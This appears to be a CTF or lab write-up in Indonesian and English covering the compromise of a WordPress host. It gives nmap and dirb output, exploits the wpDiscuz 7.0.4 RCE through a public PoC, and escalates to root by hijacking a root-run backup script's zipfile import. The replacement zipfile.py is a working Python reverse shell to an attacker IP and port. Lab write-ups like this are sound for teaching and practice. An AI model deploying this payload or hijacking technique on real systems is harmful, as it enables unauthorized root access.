




 
# Enemuration

#### Nmap

```
# Nmap 7.94SVN scan initiated Wed Feb 21 12:04:09 2024 as: nmap -sC -sV -oN nmapx -p- -T4 --min-rate=1000 -v 10.1.2.151
Warning: 10.1.2.151 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.1.2.151
Host is up (0.25s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5a:04:2d:83:23:09:72:77:ec:f3:ac:cf:b3:d6:81:a4 (ECDSA)
|_  256 fa:2a:ae:56:a4:e4:a8:04:1c:c3:91:68:a9:fa:2d:43 (ED25519)
80/tcp   open     http     Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
2685/tcp filtered mpnjsocl
7628/tcp filtered zen-pawn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 21 12:05:45 2024 -- 1 IP address (1 host up) scanned in 96.80 seconds
```

#### Dirb

```

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirbx.txt
START_TIME: Wed Feb 21 12:04:20 2024
URL_BASE: http://10.1.2.151/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.1.2.151/ ----
+ http://10.1.2.151/index.html (CODE:200|SIZE:10671)
+ http://10.1.2.151/server-status (CODE:403|SIZE:275)

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirbx.txt
START_TIME: Wed Feb 21 12:23:36 2024
URL_BASE: http://10.1.2.151/wordpress/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.1.2.151/wordpress/ ----
==> DIRECTORY: http://10.1.2.151/wordpress/

---- Entering directory: http://10.1.2.151/wordpress/ ----
+ http://10.1.2.151/wordpress/index.php (CODE:301|SIZE:0)
+ http://10.1.2.151/wordpress/index.php (CODE:301|SIZE:0)
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-content/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-includes/
+ http://10.1.2.151/wordpress/xmlrpc.php (CODE:405|SIZE:42)

---- Entering directory: http://10.1.2.151/wordpress/wp-admin/ ----
+ http://10.1.2.151/wordpress/wp-admin/admin.php (CODE:302|SIZE:0)
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/css/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/images/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/includes/
+ http://10.1.2.151/wordpress/wp-admin/index.php (CODE:302|SIZE:0)
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/js/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/maint/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/network/
==> DIRECTORY: http://10.1.2.151/wordpress/wp-admin/user/

---- Entering directory: http://10.1.2.151/wordpress/wp-content/ ----
```


# Exploitation

Melakukan scanning wordpress dengan metasploit untuk mencari beberapa plugin outdated yang rentan.




Eksplotasi Plugin WpDiscuz-7.0.4-RCE menggunakan kode python dari [PoC](https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE/blob/main/wpDiscuz_RemoteCodeExec.py)




# Privillage Escalation

Dikarenakan shell yang kurang interaktif menggunakan shell dari code python sebelumnya saya beralih menggunakan metasploit untuk masuk ke dalam shell




Pada directory home/apollo/.local terdapat sebuah python code yang berjalan sebagai root dan yang mana bisa dilakukan library hijacking pada code tersebut.

```
-rwxr-xr-- 1 root     root     1.5K Dec 23 10:37 backup.py
```


**Backup.py**

```py
import shutil
import zipfile
import os

def backup_folder():
    source_folder = '/var/www/html/'  # Specify the source folder path here
    backup_location = '/opt/backup'  # Change this to your desired backup location

    # Ensure the source folder exists
    if not os.path.exists(source_folder):
        print(f"The source folder '{source_folder}' does not exist.")
        return
    
    # Create backup directory if it doesn't exist
    if not os.path.exists(backup_location):
        os.makedirs(backup_location)
    
    # Generate the backup file name
    source_folder_name = os.path.basename(os.path.normpath(source_folder))
    zip_filename = f"{source_folder_name}_backup.zip"
    backup_path = os.path.join(backup_location, zip_filename)

    # Compress the source folder into a ZIP file
    with zipfile.ZipFile(backup_path, 'w', zipfile.ZIP_DEFLATED) as zipf:
        for root, _, files in os.walk(source_folder):
            for file in files:
                file_path = os.path.join(root, file)
                try:
                    # Add files to the ZIP file if permission is granted
                    zipf.write(file_path, os.path.relpath(file_path, source_folder))
                except Exception as e:
                    print(f"Skipping file '{file_path}' due to lack of permission: {e}")
                    continue

    print(f"Backup created successfully at: {backup_path}")

def main():
    backup_folder()

if __name__ == "__main__":
    main()

```


**zipfile.py**

```py
import os
import pty
import socket

lhost = "10.18.200.73"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
    def close(*args):
        return

    def write(*args):
        return

    def __init__(self, *args):
        return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```


